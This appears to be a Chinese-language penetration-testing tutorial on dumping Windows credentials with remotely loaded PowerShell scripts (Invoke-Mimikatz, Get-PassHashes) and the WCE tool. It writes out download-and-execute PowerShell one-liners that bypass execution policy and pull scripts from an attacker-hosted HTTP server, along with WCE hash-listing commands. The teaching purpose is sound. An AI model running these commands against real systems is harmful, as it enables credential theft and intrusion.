# 网络安全入门：P62：2、PowerShell脚本和WCE的使用

## 概述
在本节课中，我们将学习两种在Windows系统中获取密码凭证的实用方法：使用PowerShell脚本和WCE工具。这两种方法都是渗透测试和安全评估中常用的技术。

---

## 回顾与过渡
上一节我们介绍了使用Mimikatz工具获取Windows密码凭证。本节中，我们来看看另外两种同样有效的工具和方法。

### 关于Mimikatz版本的补充说明
上节课有一个知识点需要补充：老版本的Mimikatz与新版本在执行方式上存在区别。老版本（如1.x版本）需要手动逐步执行命令。如果各位同学在博客或教程中看到分步执行的命令格式，说明其使用的是老版本Mimikatz。由于上节课已演示过新版本，此处不再赘述。

---



## PowerShell脚本获取凭证

### 什么是PowerShell？
PowerShell是Windows系统自带的跨平台任务自动化与配置管理框架，由微软开发。它类似于CMD命令行，但功能更强大。在Windows 7及以上版本的系统（包括Windows Server 2003及以后版本）中，PowerShell是默认安装的。



### 实现原理
通过执行特定的PowerShell脚本，可以读取系统内存中的密码凭证。这些脚本通常利用了与Mimikatz类似的技术。

以下是两个常用脚本的下载地址：
*   `Invoke-Mimikatz.ps1`
*   `Get-PassHashes.ps1`

将脚本源代码下载后，需要将其托管在一个可通过HTTP访问的位置。

### 操作演示
我们将演示在Kali Linux系统中开启HTTP服务，然后在目标Windows机器上远程加载并执行脚本。

**第一步：在Kali中开启HTTP服务**
将下载好的PowerShell脚本放入一个目录，然后在该目录下使用Python3开启HTTP服务。
```bash
python3 -m http.server 8000
```
此命令会在当前目录启动一个端口为8000的HTTP文件服务器。

**第二步：在目标Windows机器上执行命令**
在目标机器的PowerShell中，执行以下格式的命令来远程加载并运行脚本：
```powershell
powershell -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://<你的Kali_IP>:8000/Invoke-Mimikatz.ps1’); Invoke-Mimikatz”
```
**命令解析：**
*   `powershell -exec bypass`： 以绕过执行策略的方式运行PowerShell。
*   `IEX (New-Object Net.WebClient).DownloadString(‘URL’)`： 从指定URL下载脚本内容并直接执行（IEX是Invoke-Expression的别名）。
*   `Invoke-Mimikatz`： 执行下载的脚本中的主函数。

执行后，脚本会向Kali的HTTP服务发起请求，获取`Invoke-Mimikatz.ps1`脚本并在内存中加载运行，最终输出获取到的凭证信息（可能是哈希值）。

**使用另一个脚本**
同样，可以使用`Get-PassHashes.ps1`脚本，命令格式类似：
```powershell
powershell -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://<你的Kali_IP>:8000/Get-PassHashes.ps1’)”
```
这个脚本可能会直接获取到明文的账号密码，与上一个脚本的输出格式不同。

**核心要点**
此方法的关键在于将脚本托管在可访问的Web服务器上，并通过PowerShell的远程下载执行功能来运行它。

---



## 使用WCE工具获取凭证



### 什么是WCE？
WCE（Windows Credentials Editor）是一款与Mimikatz齐名的Windows哈希管理工具，同样用于从内存中提取登录凭证。




### 工具使用
WCE的使用非常简单。首先从官方地址下载工具（本课程资料包中已提供）。



**操作演示**
1.  将`wce.exe`文件上传到目标Windows机器。
2.  打开命令行（CMD），导航到`wce.exe`所在目录。
3.  直接运行程序，无需参数即可列出当前会话的哈希值。
    ```cmd
    wce.exe
    ```
    执行后，工具会直接输出当前系统内存中抓取到的用户名和对应的LM/NTLM哈希值。

### 常用参数说明
WCE工具还支持其他功能，以下是一些常用参数：
*   `-l`： 列出登录会话和NTLM凭证。
*   `-s`： 修改当前登录会话的NTLM凭证。
同学们可以在课后自行尝试这些参数，以更深入地了解其功能。



---





## 总结
本节课我们一起学习了两种获取Windows系统密码凭证的补充方法：
1.  **PowerShell脚本远程加载**：通过Web服务器托管PowerShell脚本，在目标机上远程下载并执行，从而提取哈希或明文密码。
2.  **WCE工具本地执行**：直接在目标机上运行WCE工具，快速获取当前登录会话的哈希值。





这些工具和方法是内网渗透和权限维持中的重要环节。请注意，这些技术仅应用于授权的安全测试和学习环境。

---
*更多相关的工具、脚本和详细学习资料已整理完毕，有需要的同学可通过评论区指引获取。*